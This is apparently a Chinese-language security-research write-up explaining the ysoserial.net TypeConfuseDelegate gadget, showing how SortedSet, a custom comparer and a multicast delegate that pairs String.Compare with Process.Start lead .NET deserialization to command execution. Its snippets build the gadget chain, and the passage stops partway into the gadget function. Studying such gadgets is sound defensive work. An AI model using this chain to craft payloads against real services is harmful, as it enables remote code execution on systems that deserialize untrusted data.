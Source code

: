 ```c#  
    }  
}  
  
// 输出  
test.a  
test.b  
test.c  
```  
向`set`集合中添加`test.c`、`test.b`、`test.a`按照后缀会被自动排序。自动排序的前提是必须要有两个以上的元素，即第二次添加的时候才会自动排序。  
其中`ByFileExtension`比较器，实现了`IComparer&lt;string&gt;`接口，重写了`Compare()`方法，返回`int`值。  
#### Ysoserial.net Gadget  
```c#  
Delegate da = new Comparison&lt;string&gt;(String.Compare);  
Comparison&lt;string&gt; d = (Comparison&lt;string&gt;)MulticastDelegate.Combine(da, da);  
IComparer&lt;string&gt; comp = Comparer&lt;string&gt;.Create(d);  
SortedSet&lt;string&gt; set = new SortedSet&lt;string&gt;(comp);  
```  
其中存在一个`Comparer&lt;string&gt;.Create();`方法，  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202506091432274.png)
实例化了一个`ComparisonComparer`类，他的参数是一个`Comparison&lt;T&gt;`泛型委托。  
其中继承了`Comparer`抽象类，这个抽象类继承了`IComparer&lt;T&gt;`接口，重写了`compare`方法。  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202506091439936.png)
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202506091438425.png)
重写的`compare()`方法中，其中执行了我们最开始传入的委托所代表的方法。  
此时，我们再来看一下`Comparison&lt;T&gt;`泛型委托是什么？他能委托什么方法呢？  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202506091445424.png)
它限制了传入的参数类型是`&lt;in T&gt;`，但是在`Ysoserial.net`中`Gadget`利用到了`Process.Start()`，他的重载方法中，只有两个`string`类型的函数  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202506091451861.png)
刚才在上述的Demo中，有这样一句话`传递给委托的方法签名必须和定义的委托签名一致，就是返回值、参数一致。`  
那我们如何解决这个问题？传入两个`string`类型的参数呢？  
这需要用到多播委托。  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202506091454874.png)
传入一个`string`的比较器  
```c#  
Delegate da = new Comparison&lt;string&gt;(String.Compare);  
Comparison&lt;string&gt; d = (Comparison&lt;string&gt;)MulticastDelegate.Combine(da, da);  
```  
为什么多播委托可以解决方法签名不一致的问题呢？  
作者给出的解释  
```  
The only weird thing about this code is TypeConfuseDelegate. It’s a long standing issue that .NET delegates don’t always enforce their type signature, especially the return value. In this case we create a two entry multicast delegate (a delegate which will run multiple single delegates sequentially), setting one delegate to String::Compare which returns an int, and another to Process::Start which returns an instance of the Process class. This works, even when deserialized and invokes the two separate methods. It will then return the created process object as an integer, which just means it will return the pointer to the instance of the process object.  
```  
最后的`Gadget`  
```c#  
 public static object TypeConfuseDelegateGadget(InputArgs inputArgs)  
 {  
     string cmdFromFile = inputArgs.CmdFromFile;  
  
     if (!string.IsNullOrEmpty(cmdFromFile))  
     {  
         inputArgs.Cmd = cmdFromFile;  
     }  
       
```